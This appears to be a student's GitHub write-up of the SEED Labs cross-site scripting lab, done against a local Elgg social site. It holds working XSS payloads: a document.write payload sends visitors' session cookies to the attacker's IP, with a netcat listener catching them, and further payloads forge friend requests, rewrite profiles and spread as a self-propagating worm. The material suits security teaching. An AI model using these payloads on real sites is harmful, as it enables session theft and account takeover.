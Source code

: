 # Cross_Site_Scripting_Attack-SEED_LAB-

2 VMs:

. attacker: 10.0.2.15
. server: 10.0.2.4

Edit the DNS record in /etc/hosts on the attacker:

  10.0.2.4       www.xsslabelgg.com

Read the file /etc/apache2/sites-available/000-default.conf:

	<VirtualHost *:80>
	        ServerName http://www.xsslabelgg.com
	        DocumentRoot /var/www/XSS/Elgg
	</VirtualHost>

It shows that the sources of website http://www.xsslabelgg.com are hosted in /var/www/XSS/Elgg



#Task 1

For Firefox, Web Developer -> Network is also useful.


#Task 1.1


Log in with account alice and password seedalice, then edit Brief description module in Profile as:

	<script>
	  alert("XSS");
	</script>

And save it.

Now, access http://www.xsslabelgg.com/profile/alice from either the server or the attacker, an alert prompts:



![alt text](https://github.com/Waleed-gif/Cross_Site_Scripting_Attack-SEED_LAB-/blob/main/1.png)



#Task 2


Edit the Brief description module and save:


  <script>
	  alert(document.cookie);
	</script>


When accessing the profile page, it will show the cookie of the log-in user.
When Boby opens the page, it will be

![alt text](https://github.com/Waleed-gif/Cross_Site_Scripting_Attack-SEED_LAB-/blob/main/2.png)

For Alice herself:

![alt text](https://github.com/Waleed-gif/Cross_Site_Scripting_Attack-SEED_LAB-/blob/main/3.png)

#Task 3

Edit the Brief description as:

	<script>
	  document.write(
	    "<img src=http://10.0.2.15:5555?c=" + escape(document.cookie) + " >"
	  );
	</script>

It will send an HTTP GET request to the port 5555 on the attacker with document.cookie whenever the profile page is accessed by any victim user.

Then listen on the port 5555 on the attacker machine:

	nc -l 5555 -v

Once visiting the profile page ( http://www.xsslabelgg.com/profile/alice) from VM 10.0.2.4, then it will appear on the attacker:


![alt text](https://github.com/Waleed-gif/Cross_Site_Scripting_Attack-SEED_LAB-/blob/main/4.png)



#Task 4

Try to log in as alice and add samy as a friend, during the process, network tool captures the request:

HTTP header:


Request URL: http://www.xsslabelgg.com/action/friends/add?friend=47&__elgg_ts=1589608177&__elgg_token=VSvUwjnd17FwcB4BXzuRzQ&__elgg_ts=1589608177&__elgg_token=VSvUwjnd17FwcB4BXzuRzQ
GET /action/friends/add?friend=47&__elgg_ts=1589608177&__elgg_token=VSvUwjnd17FwcB4BXzuRzQ&__elgg_ts=1589608177&__elgg_token=VSvUwjnd17FwcB4BXzuRzQ HTTP/1.1
Host: www.xsslabelgg.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux i686; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://www.xsslabelgg.com/profile/samy
X-Requested-With: XMLHttpRequest
Cookie: Elgg=5tqs9f0im6vp35cr2cva0lpvp4
Connection: keep-alive

So construct the payload that forges the user's friend request as:

  <script type="text/javascript">
  window.onload = function () {
    var Ajax = null;
    var ts = "&__elgg_ts=" + elgg.security.token.__elgg_ts;
    var token = "&__elgg_token=" + elgg.security.token.__elgg_token;
    //Construct the HTTP request to add Samy as a friend.
    var sendurl =
      "http://www.xsslabelgg.com/action/friends/add?friend=47" + ts + token; //FILL IN
    //Create and send Ajax request to add friend
    Ajax = new XMLHttpRequest();
    Ajax.open("GET", sendurl, true);
    Ajax.setRequestHeader("Host", "www.xsslabelgg.com");
    Ajax.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
    Ajax.send();
  };
</script>

Log in with username samy and password seedsamy.

Add the code above in Profile -> About me by edit html mode.

Now on the VM 10.0.2.4, sign in as Boby and visit Samy's profile(http://www.xsslabelgg.com/profile/samy), without any extra action, just refresh the page, it shows that Samy is already your (i.e. Boby) friend.



#Task 5



When editing a user's (Alice) own profile legally, the network tool captures such an HTTP POST request:

Request URL: http://www.xsslabelgg.com/action/profile/edit
__elgg_token=VSvHyrizEfLuFJUoNPOQXg
__elgg_ts=1589672946
name=Alice
description=<p>dsadsa</p>
accesslevel[description]=2
briefdescription=dasasda
accesslevel[briefdescription]=2
location
accesslevel[location]=2
interests
accesslevel[interests]=2
skills
accesslevel[skills]=2
contactemail
accesslevel[contactemail]=2
phone
accesslevel[phone]=2
mobile
accesslevel[mobile]=2
website
accesslevel[website]=2
twitter
accesslevel[twitter]=2
guid=44
POST /action/profile/edit HTTP/1.1
Host: www.xsslabelgg.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux i686; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://www.xsslabelgg.com/profile/alice/edit
Content-Type: application/x-www-form-urlencoded
Content-Length: 505
Cookie: Elgg=ruji2rg6eu80rqj6oebqt57ga7
Connection: keep-alive
Upgrade-Insecure-Requests: 1

Then edit Samy's profile and figure out his guid as 47


![alt text](https://github.com/Waleed-gif/Cross_Site_Scripting_Attack-SEED_LAB-/blob/main/5.png)

Now we want to modify the about me module in the profile of someone as "modified by Samy" if he/she visits Samy's profile page. Save the code below as Samy's profile:


<script type="text/javascript">
  window.onload = function () {
    //JavaScript code to access user name, user guid, Time Stamp __elgg_ts
    //and Security Token __elgg_token
    var userName = "&name=" + elgg.session.user.name;
    var guid = "&guid=" + elgg.session.user.guid;
    var ts = "&__elgg_ts=" + elgg.security.token.__elgg_ts;
    var token = "&__elgg_token=" + elgg.security.token.__elgg_token;
    var description =
      "&description=<p>modified by Samy<p>" + "&accesslevel[description]=2";
    //Construct the content of your url.
    var sendurl = "http://www.xsslabelgg.com/action/profile/edit";
    var content = userName + guid + ts + token + description;
    var samyGuid = 47;
    if (elgg.session.user.guid != samyGuid) {
      //Create and send Ajax request to modify profile
      var Ajax = null;
      Ajax = new XMLHttpRequest();
      Ajax.open("POST", sendurl, true);
      Ajax.setRequestHeader("Host", "www.xsslabelgg.com");
      Ajax.setRequestHeader(
        "Content-Type",
        "application/x-www-form-urlencoded"
      );
      Ajax.send(content);
    }
  };
</script>

Then, visit Samy's profile using Boby's account. Boby's profile is modified at once:



![alt text](https://github.com/Waleed-gif/Cross_Site_Scripting_Attack-SEED_LAB-/blob/main/6.png)



#Task 6

To make the code in Task 5 self-propogating:

###DOM Approach
Do some subtle modification based on the code in Task 5:

<script type="text/javascript" id="worm">
  window.onload = function () {
    var headerTag = '<script id="worm" type="text/javascript">';
    var jsCode = document.getElementById("worm").innerHTML;
    var tailTag = "</" + "script>";
    var wormCode = encodeURIComponent(headerTag + jsCode + tailTag);
    //JavaScript code to access user name, user guid, Time Stamp __elgg_ts
    //and Security Token __elgg_token

    var userName = "&name=" + elgg.session.user.name;
    var guid = "&guid=" + elgg.session.user.guid;
    var ts = "&__elgg_ts=" + elgg.security.token.__elgg_ts;
    var token = "&__elgg_token=" + elgg.security.token.__elgg_token;
    var description =
      "&description=<p>modified by Samy<p>" +
      wormCode +
      "&accesslevel[description]=2";
    //Construct the content of your url.
    var sendurl = "http://www.xsslabelgg.com/action/profile/edit";
    var content = userName + guid + ts + token + description;
    var samyGuid = 47;
    if (elgg.session.user.guid != samyGuid) {
      //Create and send Ajax request to modify profile
      var Ajax = null;
      Ajax = new XMLHttpRequest();
      Ajax.open("POST", sendurl, true);
      Ajax.setRequestHeader("Host", "www.xsslabelgg.com");
      Ajax.setRequestHeader(
        "Content-Type",
        "application/x-www-form-urlencoded"
      );
      Ajax.send(content);
    }
  };
</script>

Edit Boby's profile as the code above. Then sign-in as Boby to view his profile page, as expected, Boby is injected and shows "modified by Samy". Log-out and then log-in as Alice to view Boby's profile, now you can found that Alice's profile is also changed.



#Link Approach

Write the JavaScript file xssworm.js and store it in the external link https://cdn.jsdelivr.net/gh/li-xin-yi/seedlab@latest/Cross-Site-Scripting-Attack/xssworm.js
